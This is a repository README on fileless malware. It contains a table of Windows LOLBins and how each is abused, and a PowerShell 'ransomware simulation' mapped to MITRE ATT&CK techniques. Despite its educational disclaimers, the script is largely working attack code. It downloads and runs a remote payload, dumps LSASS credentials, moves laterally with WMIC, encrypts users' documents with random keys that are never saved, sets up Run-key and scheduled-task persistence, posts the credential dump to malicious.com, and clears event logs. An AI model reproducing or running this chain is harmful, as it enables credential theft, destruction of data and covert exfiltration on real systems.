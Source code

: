 
# ⚠️ Advisory Warning: Educational Use Only  
This repository contains content related to NSFW (Not Safe for Work) cybersecurity topics including fileless malware, LOLBins, and adversary simulation tactics. The information provided is strictly for **educational, academic, and controlled research lab environments only**. **Do not deploy or replicate these techniques in unauthorized systems.** Misuse may constitute a violation of laws and ethical guidelines.

---

# 🧠 NSFW - Fileless Malware (Advanced Simulation Guide)

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** (Living off the Land Binaries) are legitimate Windows system utilities that adversaries repurpose to execute code, evade defenses, and persist. These tools are trusted, signed, and often overlooked by endpoint security solutions.

### ⚙️ Common LOLBins and Their Abuse Cases

| LOLBin              | Abused For                       | ATT&CK Tactics                          |
|---------------------|----------------------------------|-----------------------------------------|
| `rundll32.exe`      | DLL execution                    | Code execution, EDR bypass              |
| `mshta.exe`         | Run HTA payloads                 | Script execution, sandbox evasion       |
| `regsvr32.exe`      | Load COM DLLs                    | Fileless execution, C2 proxy            |
| `wmic.exe`          | Remote command execution         | Process launch, lateral movement        |
| `cmd.exe / powershell.exe` | Script runners          | Payload staging, persistence            |
| `msbuild.exe`       | Inline C# compile/exec           | Fileless malware loading                |
| `certutil.exe`      | Download/decode files            | Exfiltration, staging                   |
| `bitsadmin.exe`     | Remote file fetch                | Delivery, task persistence              |
| `schtasks.exe`      | Task scheduling                  | Privilege escalation, persistence       |
| `esentutl.exe`      | Copy/exec binary payloads        | Stealth operations, exfiltration        |

---

## 🧬 Theoretical Simulation: 100% Fileless Ransomware  
*Using the [MITRE ATT&CK](https://attack.mitre.org/) Framework for Mapping TTPs*

> ⚠️ **Disclaimer**: Code below is a synthetic simulation script intended for red team R&D under proper authorization. DO NOT EXECUTE OUTSIDE OF A SANDBOX ENVIRONMENT.

<details>
<summary>Click to view simulated PowerShell ransomware chain</summary>

```powershell
# 🎯 1. Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ 2. Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 3. Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 4. Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 5. Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 6. Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 7. Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 8. Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 9. Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 10. Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Resources

- 🔧 [PrintNightmare Deep Dive](https://itm4n.github.io/printnightmare-not-over/)
- 💀 [PrintNightmare Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
- 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
- 🧠 [MITRE ATT&CK Entry - S0697](https://attack.mitre.org/techniques/T1218/)
- 🧬 [LOLGEN - Generate Abuse Chains](https://lolgen.hdks.org/)
- 🦠 [Fileless Malware – Wikipedia Overview](https://en.wikipedia.org/wiki/Fileless_malware)
- 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- 🖨️ [Printer Driver Exploits](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Final Note
This repository is a research artifact intended for cybersecurity professionals, malware analysts, and red team operators. Unauthorized use, real-world deployment, or replication of these techniques is prohibited. Always operate within the bounds of your local laws and professional codes of conduct.

